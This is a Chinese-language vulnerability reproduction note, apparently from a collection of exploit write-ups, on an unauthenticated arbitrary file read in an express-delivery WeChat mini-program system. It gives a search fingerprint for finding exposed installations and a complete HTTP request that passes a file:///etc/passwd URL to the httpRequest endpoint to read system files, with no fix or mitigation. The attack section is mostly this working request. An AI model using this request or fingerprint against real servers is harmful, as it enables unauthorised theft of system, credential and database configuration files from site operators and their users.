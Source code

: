 # 快递微信小程序系统存在前台任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.84);">快递 微信小程序只系统是基于微信平台开发的轻量级应用，用户无需下载额外的APP，即可在微信内直接使用小程序进行快递操作。该系统集成了多项功能，实现了从寄件下单、物流跟踪到支付结算等全链条的快递服务，极大地提高了用户的便捷性和使用体验。、快递微信小程序系统 htpRequest 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件件、系统配置文件))、数据库配置文件等等，导致网站处于极度不安全状态。</font>

# <font style="color:rgba(0, 0, 0, 0.84);">二、影响版本</font>
+ 快递微信小程序系统

# 三、资产测绘
```plain
body="static/default/newwap/lang/js/jquery.localize.min.js"
```

![1730457310265-b879e78b-33fb-46fb-bd72-615836037832.png](./img/vmzVTMljI6tdu2He/1730457310265-b879e78b-33fb-46fb-bd72-615836037832-114887.png)

# 四、漏洞复现
```plain
GET /weixin/index/httpRequest?url=file:///etc/passwd HTTP/2
Host: 
Cookie: think_var=zh-cn; PHPSESSID=6igfjn7ik5nrk3bjc0i25ek357
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![1730457254704-754bdc13-ed5a-4445-b048-7cb49eed50de.png](./img/vmzVTMljI6tdu2He/1730457254704-754bdc13-ed5a-4445-b048-7cb49eed50de-338272.png)



> 更新: 2024-11-27 10:00:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/io075rmp08qw1kf6>